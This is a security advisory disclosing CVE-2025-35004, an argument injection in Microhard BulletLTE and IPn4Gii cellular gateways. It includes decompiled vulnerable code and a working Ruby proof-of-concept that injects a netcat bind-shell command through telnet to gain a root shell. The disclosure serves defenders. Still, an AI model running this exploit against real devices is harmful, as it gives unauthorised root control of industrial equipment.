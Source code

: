 ```yaml
---
title: CVE-2025-35004
aliases:
  - /cves/CVE-2025-35004.html
pubDate: 2025-06-08T15:58:51-05:00
---
```


# CVE-2025-35004: Microhard Bullet-LTE and IPn4Gii AT+MFIP Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35004] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MFIP command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MFIP which is used for querying/configuring the IP firewall. User input supplied to the cmd_firewall_ip() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_firewall.sh script which is called via popen():

```
undefined4 cmd_firewall_ip(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
	...
	if (iVar1 != 0) {
           iVar1 = atoi(param_3[3]);
           iVar3 = atoi(param_3[4]);
           sprintf(acStack_1cfc,
	              "sh /etc/m_cli/atcmd_sh_firewall.sh %s %s %s %s %s %s %s %s %s  %s"
                      ,"ip_set_one",acStack_1d7c,auStack_1b78 + iVar1 * 0x84,
                      auStack_19ec + iVar3 * 0x84,param_3[5],param_3[6],param_3[7],
                      param_3[8],param_3[9],param_3[10]);
           memset(acStack_1c7c,0,0x100);
           iVar1 = FUN_0000e9a0(param_1,acStack_1cfc,acStack_1c7c,0x100);
           if (iVar1 == 0) {
              pcVar5 = "ERROR";
              goto LAB_00029e14;
           }
 	}
	...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;

  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the at+mfip command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE=2025-35004] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mfip=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35004] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35004]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35004]: https://www.cve.org/CVERecord?id=CVE-2025-35004
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
